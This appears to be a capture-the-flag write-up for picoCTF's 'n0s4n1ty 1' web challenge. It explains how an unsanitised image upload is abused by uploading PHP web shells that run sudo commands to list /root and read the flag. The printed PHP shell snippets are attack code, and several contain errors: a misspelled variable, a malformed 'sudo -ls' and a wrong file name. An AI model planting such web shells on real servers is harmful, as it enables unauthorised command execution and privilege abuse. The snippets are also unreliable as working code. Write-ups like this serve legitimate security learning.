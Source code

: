 # Challenge: n0s4n1ty 1

## Details:

- Source: picoCTF 2025
- Category: Web Explotation
- Difficulty: Easy
- Date completed: 12.07.2025
- A website was provided


## Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


## Hints

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l


## Tools

- A simple PHP web shell


## Steps taken

1. As hints suggested, there was no input sanitation in the website. Users can upload any kind of files instead of image files.

2. I did some research and wrote a php file to get a web shell in order to execute commands. My first try was to run `sudo -l` as the hint suggested.

    ```bash
    <?php 
    $command = 'sudo -l';
    $ouput = exec($command);
    echo "$output";
    ?>
    ```

3. I encountered this after uploading, suggesting the directory where my files are uploaded can be accessed publicly.

    ![Uploaded](./Images/03-uploaded.png)

4. I navigated to the /uploads/filename.

    ![See result](./Images/03-see_uploaded.png)

This output showed that I can run any command with sudo without password.

5. My next attempt was to see the files and directories `/root` contained, as the description mentioned the flag was somewhere there. This was my next php file.

    ```bash
    <?php
    $command = 'sudo -ls /root';
    $output = exec($command);
    echo "$output";
    ?>
    ```

6. I discovered the only file in root directory was `flag.txt`, therefore my next and final step was to read its contents and submit the flag, for whic I modified my `exploit.php` file to this.

    ```bash
    <?php
    $command = 'sudo cat /root/file.txt';
    $output = exec($command);
    echo "$output";
    ?>
    ```


## What I learned

1. File upload vulnerabilities occur when an application allows a user to upload a file without properly validating the file’s type, name, size, or content.

2. These vulnerabilities can lead to Remote Code Execution (RCE), directory traversal, or webshell access if exploited.

3. These vulnerabilities can be exploited using Burpsuite as well, by changing headers. 


## Useful references

1. [File upload vulnerabilities learning path]("https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities")

2. [Web Shells 101]("https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/")

